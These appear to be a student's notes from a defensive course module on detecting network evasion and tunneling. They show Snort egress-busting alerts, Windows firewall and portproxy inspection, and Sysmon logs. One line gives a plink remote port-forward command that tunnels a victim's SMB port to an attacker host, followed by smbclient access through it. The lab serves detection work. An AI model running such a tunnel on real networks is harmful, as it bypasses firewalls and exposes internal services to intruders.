



# Module 14: Network Evasion and Tunneling

## Network Segmentation

### Network Segmentation Concepts and Benefits

_Concepts. Google/Wikipedia it._

### Segmentation Theory

_Concepts. Google/Wikipedia it._

## Egress Busting

### Detecting Egress Busting

_Snort alerts generated by the egress busting attack_


```log
offsec@snort02:~$ tail /var/log/snort/alert_fast.txt 
01/28-21:15:49.133529 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50167 -> 192.168.48.4:491
01/28-21:15:49.149038 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50168 -> 192.168.48.4:492
01/28-21:15:49.164680 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50169 -> 192.168.48.4:493
01/28-21:15:49.180393 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50170 -> 192.168.48.4:494
01/28-21:15:49.195977 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50171 -> 192.168.48.4:495
01/28-21:15:49.211640 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50172 -> 192.168.48.4:496
01/28-21:15:49.227126 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50173 -> 192.168.48.4:497
01/28-21:15:49.242844 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50174 -> 192.168.48.4:498
01/28-21:15:49.258451 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50175 -> 192.168.48.4:499
01/28-21:15:49.274751 [**] [1:10000006:0] "Malicious outbound traffic detected" [**] [Priority: 0] {TCP} 172.16.50.11:50176 -> 192.168.48.4:500
```


## Port Forwarding and Tunneling

### Port Forwarding and Tunneling Theory

<figure><figcaption><p>Local forwarding / tunneling</p></figcaption></figure>

<figure><figcaption><p>Remote forwarding / tunneling</p></figcaption></figure>

<figure><figcaption><p>Dynamic forwarding / tunneling</p></figcaption></figure>

### Port Forwarding and Tunneling in Practice

_Reading the Windows Firewall With Advanced Security/Firewall Event Log_


```powershell
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName = 'Microsoft-Windows-Windows Firewall With Advanced Security/Firewall'} -MaxEvents 20

   ProviderName: Microsoft-Windows-Windows Firewall With Advanced Security

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
1/31/2022 10:03:01 PM         2008 Information      Windows Defender Firewall Group Policy settings have changed. The new settings have been applied
1/31/2022 9:58:43 PM          2004 Information      A rule has been added to the Windows Defender Firewall exception list....
```


_Listing all the inbound firewall rules_


```powershell
PS C:\Users\Administrator> Get-NetFirewallRule -Direction Inbound | Select-Object -Property DisplayName,Profile,Enabled | Where { $_.Enabled -eq 'True'}

DisplayName                                                                                Profile Enabled
-----------                                                                                ------- -------
...
Cortana                                                                            Domain, Private    True
Network Discovery (Pub-WSD-In)                                                             Private    True
Network Discovery (LLMNR-UDP-In)                                                           Private    True
Network Discovery (WSD-In)                                                                 Private    True
Network Discovery (SSDP-In)                                                                Private    True
Network Discovery (WSD Events-In)                                                          Private    True
Network Discovery (WSD EventsSecure-In)                                                    Private    True
Network Discovery (NB-Datagram-In)                                                         Private    True
Network Discovery (NB-Name-In)                                                             Private    True
Network Discovery (UPnP-In)                                                                Private    True
Desktop App Web Viewer                                                     Domain, Private, Public    True
forward_port_rule                                                                              Any    True
```


_Getting detailed information usin the rule name_


```powershell
PS C:\Users\Administrator> Get-NetFirewallRule -DisplayName "forward_port_rule"

Name                  : {F55666F7-6A7C-4049-BEE6-CD7407E7120A}
DisplayName           : forward_port_rule
Description           :
DisplayGroup          :
Group                 :
Enabled               : True
Profile               : Any
Platform              : {}
Direction             : Inbound
Action                : Allow
EdgeTraversalPolicy   : Block
LooseSourceMapping    : False
LocalOnlyMapping      : False
Owner                 :
PrimaryStatus         : OK
Status                : The rule was parsed successfully from the store. (65536)
EnforcementStatus     : NotApplicable
PolicyStoreSource     : PersistentStore
PolicyStoreSourceType : Local

PS C:\Users\Administrator> Get-NetFirewallRule -DisplayName "forward_port_rule" | Get-NetFirewallPortFilter

Protocol      : TCP
LocalPort     : 21
RemotePort    : Any
IcmpType      : Any
DynamicTarget : Any
```


_Inspecting the configuration of the portproxy interface using netsh_


```powershell
PS C:\Users\Administrator> netsh interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
172.16.50.11    21          172.16.50.12    3306
```


_Remote port forwarding using plink.exe_


```bash
echo y | plink.exe -ssh -N -l kali -pw toor -R 192.168.48.2:1234:127.0.0.1:445 192.168.48.2 
```


_Confirming port forward is setup_


```bash
kali@attacker01:~ $ ss -antp | grep 1234
 State     Recv-Q     Send-Q     Local Address:Port   Peer Address:Port     Process                                                                                                                                                                                                 
LISTEN    0          128        127.0.0.1:1234       0.0.0.0:*             users:(("sshd",pid=2801,fd=10))  
```


_Accessing the network shares usin smbclient_

```bash
kali@attacker01:~ $ smbclient -L 127.0.0.1 --port=1234 --user=Administrator
Enter WORKGROUP\Administrator's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        htdocs          Disk      
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

_Listing the Sysmon event logs while filtering for the plink string in the Message_


```powershell
PS C:\Users\Administrator> Get-SysmonEvent | Where-Object { $_.Message -like "*plink*" }

   ProviderName: Microsoft-Windows-Sysmon

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
2/1/2022 12:02:39 AM             1 Information      Process Create:...
2/1/2022 12:00:59 AM             5 Information      Process terminated:...
1/31/2022 11:47:42 PM            1 Information      Process Create:...
1/31/2022 11:47:34 PM            5 Information      Process terminated:...
1/31/2022 11:47:34 PM            1 Information      Process Create:...
1/31/2022 11:47:19 PM            5 Information      Process terminated:...
1/31/2022 11:47:19 PM            1 Information      Process Create:...
1/31/2022 11:46:12 PM            1 Information      Process Create:...
1/31/2022 11:46:12 PM            1 Information      Process Create:...
1/31/2022 11:46:12 PM            1 Information      Process Create:...
```


_Getting detailed infromation from the Sysmon event logs_


```powershell
PS C:\Users\Administrator> Get-SysmonEvent 1 "1/31/2022 11:46:12" "2/1/2022 12:02:39" | Where-Object { $_.Message -like "*plink*" } | Format-List
...
TimeCreated  : 2/1/2022 12:02:39 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 1
Message      : Process Create:
               RuleName: -
               UtcTime: 2022-02-01 08:02:39.016
               ProcessGuid: {6c804c53-e91f-61f8-9b00-000000002500}
               ProcessId: 7592
               Image: C:\xampp\htdocs\simple_upload\uploaded_files\plink.exe
               FileVersion: Release 0.76
               Description: Command-line SSH, Telnet, and Rlogin client
               Product: PuTTY suite
               Company: Simon Tatham
               OriginalFileName: Plink
               CommandLine: plink.exe  -ssh -N -l root -pw toor -R 192.168.48.2:1234:127.0.0.1:445 192.168.48.2
               CurrentDirectory: C:\xampp\htdocs\simple_upload\uploaded_files\
               User: SERVER03\Administrator
               LogonGuid: {6c804c53-e8ec-61f8-069f-060000000000}
               LogonId: 0x69F06
               TerminalSessionId: 2
               IntegrityLevel: High
               Hashes: SHA256=828E81AA16B2851561FFF6D3127663EA2D1D68571F06CBD732FDF5672086924D
               ParentProcessGuid: {6c804c53-e8f5-61f8-8f00-000000002500}
               ParentProcessId: 656
               ParentImage: C:\Windows\System32\cmd.exe
               ParentCommandLine: "C:\Windows\system32\cmd.exe"
               ParentUser: SERVER03\Administrator
...
```

